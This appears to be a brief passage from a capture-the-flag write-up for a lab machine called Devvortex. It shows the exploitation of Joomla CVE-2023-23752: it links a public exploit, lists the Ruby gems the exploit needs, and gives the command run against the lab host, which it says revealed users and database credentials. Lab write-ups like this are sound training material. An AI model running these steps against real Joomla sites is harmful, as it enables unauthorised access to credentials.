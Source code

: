 ### Exploitation

* Joomla 4.2.6
  * **CVE-2023-23752**

<figure><img src=".gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

*   [Exploit](https://github.com/Acceis/exploit-CVE-2023-23752)

    * Joomla versions 4.0.0-4.2.7 contain an improper API access vuln
      * **vuln allows us access to webservice endpoint which contain sensitive information**
    * sudo gem install httpx
    * sudo gem install paint
    * sudo gem install docopt
    * ruby exploit.rb http://dev.devvortex.htb
      * found users & DB credentials

    <figure><img src=".gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>
